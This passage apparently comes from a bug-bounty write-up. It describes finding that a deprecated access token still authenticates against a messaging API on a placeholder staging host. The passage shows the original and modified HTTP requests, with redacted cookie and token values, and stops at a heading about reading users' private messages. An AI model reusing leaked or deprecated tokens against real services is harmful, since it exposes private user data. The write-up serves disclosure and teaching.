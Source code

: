 Acquiring the access token and UID was not a big challenge but rather identifying their usage was indeed. It is usually a boring and time consuming process to browse through the API doc and search if the `accessToken` value is of any use ? If Yes, then where and how to use them ? Unfortunately, after spending approximately an hour, I found that there is nothing about the `accessToken` or related information within the documentation. But later on I continued my search, and from somewhere I came to know that the `accessToken` I've acquired is depreciated and the application does not utilize it anymore for any of their functionalities. At this point I felt that I literally wasted my time. So I dropped working on this finding and moved on to my other work.

But the next day, I again thought about putting in some blind efforts. Though deprecated, I felt looking out for any API calls to put in some random final tries. So I started looking around on all the requests and responses. Soon after, I stumbled myself upon one of the XHR request passed as -:

```http
GET /api/communication-service/conversation?showHidden=true HTTP/1.1
Host: staging.vulnerable.com
User-Agent: Mozilla/5.0 (Windows NT 6.2; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: https://staging.vulnerable.com/account/messagecenter
Cookie: COOKIE_VALUES_HERE
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
```

I removed the cookies from this request and started applying the `accessToken` value in a hope that it may turn out to be a valid authentication token. After a few trials, I randomly passed the token as a Bearer token header -:

```http
GET /api/communication-service/conversation?showHidden=true HTTP/1.1
Host: staging.vulnerable.com
User-Agent: Mozilla/5.0 (Windows NT 6.2; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close
Referer: https://staging.vulnerable.com/account/messagecenter
Authorization: bearer xxxxxxxxxxxxxxxxxxxxx
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
```

And Yeah ! It worked. So this was basically an another issue with the application which demonstrated that even the deprecated `accessToken` value is still accepted against the `/api/communication-service/conversation` endpoint (and a few others) when passed within a Bearer token header.

### Reading all private messages of user :
